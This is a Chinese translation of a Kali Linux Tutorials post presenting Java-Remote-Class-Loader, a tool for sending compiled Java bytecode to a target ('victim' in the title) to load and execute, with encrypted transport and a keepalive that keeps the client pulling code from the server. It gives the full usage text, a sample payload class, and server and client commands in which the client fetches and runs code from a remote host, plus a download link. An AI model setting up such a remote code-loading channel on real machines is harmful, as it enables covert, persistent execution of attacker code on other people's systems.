

# Java-Remote-Class-Loader:发送 Java 字节码受害者进行加载和执行的工具

> 原文：<https://kalilinuxtutorials.com/java-remote-class-loader/>

[](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhrip7mgHqgEV9-eDoXyYAgh8aRSziuVSAQKSuLbZO1Vc88GV1k6teMqN1bI_lAwFbuFZtsujDqi9x3KIXi78aXsxvPph37L-PPtYmymBl6Xy62e86HcC3zxuvBGyyv3QgZ6iXy581GrhoKobLMb4rrPFo7qSC5kZwrjZdsuoEitH1ag5I8r9C1NBxy/s728/Java-Remote-Class-Loader.png)

**Java-Remote-Class-Loader** 是一个工具，它允许您将 Java 字节码以类文件的形式发送到您的客户端(或潜在目标),以便使用 Java ClassLoader 和 Reflect API 来加载和执行。客户机从服务器接收类文件，并返回各自的执行输出。有效负载必须用 Java 编写，并在启动服务器之前进行编译。

## 特性

*   客户机-服务器体系结构
*   Java 类文件的远程加载
*   使用 ChaCha20 密码的传输加密
*   通过参数定义的设置
*   Keepalive 机制，用于在服务器重启时重新建立通信

## 安装

该工具已经在 Windows 和 Linux (zip 便携版)上使用 OpenJDK 11 和 JRE Java 包进行了测试。由于依赖性，Java 版本应该是 11 或更高版本。

[https://www.openlogic.com/openjdk-downloads](https://www.openlogic.com/openjdk-downloads)

## 用法

```
$ java -jar java-class-loader.jar -help

usage: Main
 -address <arg>       address to connect (client) / to bind (server)
 -classfile <arg>     filename of bytecode .class file to load remotely
                      (default: Payload.class)
 -classmethod <arg>   name of method to invoke (default: exec)
 -classname <arg>     name of class (default: Payload)
 -client              run as client
 -help                print this message
 -keepalive           keeps the client getting classfile from server every
                      X seconds (default: 3 seconds)
 -key <arg>           secret key - 256 bits in base64 format (if not
                      specified it will generate a new one)
 -port <arg>          port to connect (client) / to bind (server)
 -server              run as server
```

## 举例

假设您在`Payload.java`文件中有以下 Hello World 有效负载:

```
//Payload.java
public class Payload {
    public static String exec() {
        String output = "";
        try {
            output = "Hello world from client!";
        } catch (Exception e) {
            e.printStackTrace();
        }
        return output;
    }
}
```

然后，您应该编译并生成各自的`Payload.class`文件。

要在所有网络接口上运行监听端口 1337 的服务器进程，请执行以下操作:

```
$ java -jar java-class-loader.jar -server -address 0.0.0.0 -port 1337 -classfile Payload.class

Running as server
Server running on 0.0.0.0:1337
Generated new key: TOU3TLn1QsayL1K6tbNOzDK69MstouEyNLMGqzqNIrQ=
```

在客户端，您可以使用带有`-client`标志的同一个 JAR 包，并使用服务器生成的对称密钥。指定要连接的服务器 IP 地址和端口。你也可以改变类名和类方法(默认分别是`Payload`和`String exec()`)。此外，您可以指定`-keepalive`来保持客户机从服务器请求类文件，同时保持连接。

```
$ java -jar java-class-loader.jar -client -address 192.168.1.73 -port 1337 -key TOU3TLn1QsayL1K6tbNOzDK69MstouEyNLMGqzqNIrQ=

Running as client
Connecting to 192.168.1.73:1337
Received 593 bytes from server
Output from invoked class method: Hello world from client!
Sent 24 bytes to server
```

[Click Here To Download](https://github.com/joaovarelas/java-remote-class-loader)